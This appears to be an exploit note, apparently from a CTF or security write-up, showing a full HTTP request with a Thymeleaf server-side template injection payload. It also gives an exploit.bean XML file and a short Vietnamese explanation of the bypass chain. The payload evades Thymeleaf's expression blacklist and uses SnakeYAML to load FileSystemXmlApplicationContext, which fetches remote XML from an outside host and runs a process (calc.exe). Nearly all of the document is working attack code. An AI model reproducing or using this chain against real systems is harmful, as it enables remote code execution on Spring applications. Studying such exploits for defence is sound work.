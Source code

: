 Request: 
```http
GET /<@urlencode>__|*bla**{"a"+@servletContext.setAttribute("t","".class.forName("org.thymeleaf.TemplateEngine").newInstance())+@servletContext.getAttribute("t").setDialects("".class.forName("org.thymeleaf.spring6.dialect.SpringStandardDialect").newInstance())+@servletContext.getAttribute("t").process(("[["+"*"+"{T"+"(org.yaml.snakeyaml.Yaml).newInstance().load("+"".copyValueOf("a".toCharArray()[0].toChars(39))+thymeleafRequestContext.httpServletRequest.getParameterMap().values()[0][0]+"".copyValueOf("a".toCharArray()[0].toChars(39))+")}"+"]]"),"".class.forName("org.thymeleaf.context.Context").newInstance())+""}|__<@/urlencode>?a=<@urlencode>aaa: !!org.springframework.context.support.FileSystemXmlApplicationContext [ "http://172.23.42.39:8082/exploit.bean" ]<@/urlencode>%0a HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION=MTA5MjljNmEtOGRhMy00YTlhLWI0MmItOTc2ZTc5ZDM5NDZl
Connection: close


```

exploit.bean:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <array>
                <value>calc.exe</value>
            </array>
        </constructor-arg>
        <property name="any" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Brief: dùng syntax **Literal Substitution** của Thymeleaf để bypass phần check trong phần preprocess của thymeleaf, từ đó gọi lại `org.thymeleaf.TemplateEngine` 1 lần nữa để parse EL nhằm bypass đoạn check `T(`. Sử dụng class `org.yaml.snakeyaml.Yaml` vì nó không nằm trong blacklist của thymeleaf, lợi dụng cú pháp `Secondary Tag Handle` mà snakeyaml implement để load 1 class tùy ý, load đến class `org.springframework.context.support.FileSystemXmlApplicationContext` để parse một remote xml file để RCE
